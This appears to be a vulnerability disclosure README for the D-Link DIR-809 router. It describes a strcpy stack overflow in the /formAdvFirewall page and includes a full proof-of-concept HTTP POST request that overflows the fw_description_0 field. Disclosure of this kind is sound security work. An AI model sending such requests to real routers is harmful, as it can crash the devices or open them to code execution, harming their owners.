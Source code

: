 # D-Link DIR809 Vulnerability

The Vulnerability is in page `/formAdvFirewall` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

## Progress

- Confirmed by vendor. 


## Vulnerability description

In the function `FUN_800462c4` ( page `/formAdvFirewall` ), we find a stack overflow vulnerability, which allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description,  

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of a key of format `"fw_description_%d"` in the http post request which is completely under the attacker's control. 
2. The string `local_14` obtained from user is copied onto the stack using `strcpy` without checking its length. So we can make the stack buffer overflow in `acStack276`. 

![2021-05-10_11h04_17](README/2021-05-10_11h04_17.png)



## PoC

``` 
POST /formAdvFirewall.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 3228
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.1/Advanced/Firewall.asp?t=1620560035954
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=s4vLUlBpKH
Connection: close

settingsChanged=1&curTime=1620560128072&HNAP_AUTH=33A4575639545280B0A1F1C2E47D6A72+1620560128&submit-url=%2FAdvanced%2FFirewall.asp&anti_spoof=false&spi_enabled=false&dmz_enabled=0&alg_rtsp=true&fw_description_0=123123123213123123*0x200&sinf_0=1&s_s_ip_0=192.168.0.2&s_e_ip_0=192.168.0.4&pro_0=2&act_0=1&dinf_0=2&d_s_ip_0=192.168.0.5&d_e_ip_0=192.168.0.10&d_s_port_0=10000&d_e_port_0=10001&fw_description_1=&sinf_1=0&s_s_ip_1=&s_e_ip_1=&pro_1=2&act_1=1&dinf_1=0&d_s_ip_1=&d_e_ip_1=&d_s_port_1=0&d_e_port_1=&fw_description_2=&sinf_2=0&s_s_ip_2=&s_e_ip_2=&pro_2=2&act_2=1&dinf_2=0&d_s_ip_2=&d_e_ip_2=&d_s_port_2=0&d_e_port_2=&fw_description_3=&sinf_3=0&s_s_ip_3=&s_e_ip_3=&pro_3=2&act_3=1&dinf_3=0&d_s_ip_3=&d_e_ip_3=&d_s_port_3=0&d_e_port_3=&fw_description_4=&sinf_4=0&s_s_ip_4=&s_e_ip_4=&pro_4=2&act_4=1&dinf_4=0&d_s_ip_4=&d_e_ip_4=&d_s_port_4=0&d_e_port_4=&fw_description_5=&sinf_5=0&s_s_ip_5=&s_e_ip_5=&pro_5=2&act_5=1&dinf_5=0&d_s_ip_5=&d_e_ip_5=&d_s_port_5=0&d_e_port_5=&fw_description_6=&sinf_6=0&s_s_ip_6=&s_e_ip_6=&pro_6=2&act_6=1&dinf_6=0&d_s_ip_6=&d_e_ip_6=&d_s_port_6=0&d_e_port_6=&fw_description_7=&sinf_7=0&s_s_ip_7=&s_e_ip_7=&pro_7=2&act_7=1&dinf_7=0&d_s_ip_7=&d_e_ip_7=&d_s_port_7=0&d_e_port_7=&fw_description_8=&sinf_8=0&s_s_ip_8=&s_e_ip_8=&pro_8=2&act_8=1&dinf_8=0&d_s_ip_8=&d_e_ip_8=&d_s_port_8=0&d_e_port_8=&fw_description_9=&sinf_9=0&s_s_ip_9=&s_e_ip_9=&pro_9=2&act_9=1&dinf_9=0&d_s_ip_9=&d_e_ip_9=&d_s_port_9=0&d_e_port_9=&fw_description_10=&sinf_10=0&s_s_ip_10=&s_e_ip_10=&pro_10=2&act_10=1&dinf_10=0&d_s_ip_10=&d_e_ip_10=&d_s_port_10=0&d_e_port_10=&fw_description_11=&sinf_11=0&s_s_ip_11=&s_e_ip_11=&pro_11=2&act_11=1&dinf_11=0&d_s_ip_11=&d_e_ip_11=&d_s_port_11=0&d_e_port_11=&fw_description_12=&sinf_12=0&s_s_ip_12=&s_e_ip_12=&pro_12=2&act_12=1&dinf_12=0&d_s_ip_12=&d_e_ip_12=&d_s_port_12=0&d_e_port_12=&fw_description_13=&sinf_13=0&s_s_ip_13=&s_e_ip_13=&pro_13=2&act_13=1&dinf_13=0&d_s_ip_13=&d_e_ip_13=&d_s_port_13=0&d_e_port_13=&fw_description_14=&sinf_14=0&s_s_ip_14=&s_e_ip_14=&pro_14=2&act_14=1&dinf_14=0&d_s_ip_14=&d_e_ip_14=&d_s_port_14=0&d_e_port_14=&fw_description_15=&sinf_15=0&s_s_ip_15=&s_e_ip_15=&pro_15=2&act_15=1&dinf_15=0&d_s_ip_15=&d_e_ip_15=&d_s_port_15=0&d_e_port_15=&fw_description_16=&sinf_16=0&s_s_ip_16=&s_e_ip_16=&pro_16=2&act_16=1&dinf_16=0&d_s_ip_16=&d_e_ip_16=&d_s_port_16=0&d_e_port_16=&fw_description_17=&sinf_17=0&s_s_ip_17=&s_e_ip_17=&pro_17=2&act_17=1&dinf_17=0&d_s_ip_17=&d_e_ip_17=&d_s_port_17=0&d_e_port_17=&fw_description_18=&sinf_18=0&s_s_ip_18=&s_e_ip_18=&pro_18=2&act_18=1&dinf_18=0&d_s_ip_18=&d_e_ip_18=&d_s_port_18=0&d_e_port_18=&fw_description_19=&sinf_19=0&s_s_ip_19=&s_e_ip_19=&pro_19=2&act_19=1&dinf_19=0&d_s_ip_19=&d_e_ip_19=&d_s_port_19=0&d_e_port_19=&fw_description_20=&sinf_20=0&s_s_ip_20=&s_e_ip_20=&pro_20=2&act_20=1&dinf_20=0&d_s_ip_20=&d_e_ip_20=&d_s_port_20=0&d_e_port_20=&fw_description_21=&sinf_21=0&s_s_ip_21=&s_e_ip_21=&pro_21=2&act_21=1&dinf_21=0&d_s_ip_21=&d_e_ip_21=&d_s_port_21=0&d_e_port_21=&fw_description_22=&sinf_22=0&s_s_ip_22=&s_e_ip_22=&pro_22=2&act_22=1&dinf_22=0&d_s_ip_22=&d_e_ip_22=&d_s_port_22=0&d_e_port_22=&fw_description_23=&sinf_23=0&s_s_ip_23=&s_e_ip_23=&pro_23=2&act_23=1&dinf_23=0&d_s_ip_23=&d_e_ip_23=&d_s_port_23=0&d_e_port_23=
```
